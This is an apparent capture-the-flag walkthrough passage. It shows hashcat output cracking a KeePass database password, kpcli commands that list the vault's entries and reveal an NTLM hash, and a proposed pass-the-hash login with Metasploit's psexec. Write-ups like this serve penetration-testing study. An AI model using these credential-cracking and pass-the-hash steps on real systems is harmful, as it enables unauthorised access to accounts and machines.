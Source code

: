 ```
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 55296/14344387 (0.39%)
Rejected.........: 0/55296 (0.00%)
Restore.Point....: 36864/14344387 (0.26%)
Candidates.#1....: hockey5 -> gonoles
HWMon.Dev.#1.....: Temp: 43c Fan:  0% Util: 99% Core:1949MHz 
Mem:3802MHz Bus:16

Started: Fri May 18 14:53:19 2018
Stopped: Fri May 18 14:53:30 2018
```

We can see that the password is `moonshine1` and that it took 
11 seconds with a GTX 1060 3G to crack it. We'll use the 
`kpcli` tool which is Keepass' command line interface tool.

```
root@kali:~# kpcli

KeePass CLI (kpcli) v3.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> open CEH.kdbx
Please provide the master password: *************************
kpcli:/> ls
=== Groups ===
CEH/
kpcli:/> cd CEH
kpcli:/CEH> ls
=== Groups ===
eMail/
General/
Homebanking/
Internet/
Network/
Windows/
=== Entries ===
0. Backup stuff                                                           
1. Bank of America                                   www.bankofamerica.com
2. DC Recovery PW                                                         
3. EC-Council                               www.eccouncil.org/programs/cer
4. It's a secret                                 localhost:8180/secret.jsp
5. Jenkins admin                                            localhost:8080
6. Keys to the kingdom                                                    
7. Walmart.com                                             www.walmart.com
```

The entry we want is `0. Backup stuff`. The command `show -f 0` will show the password.

```
kpcli:/CEH> show -f 0

Title: Backup stuff
Uname: ?
 Pass: aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
  URL: 
Notes: 
```
The password is an NTLM hash, which is used for storing passwords for Windows machines. We can 
use this hash in a Pass The Hash attack to login to the Windows machine with no need to crack 
the hash. The `psexec` module in Metasploit will do this for us.

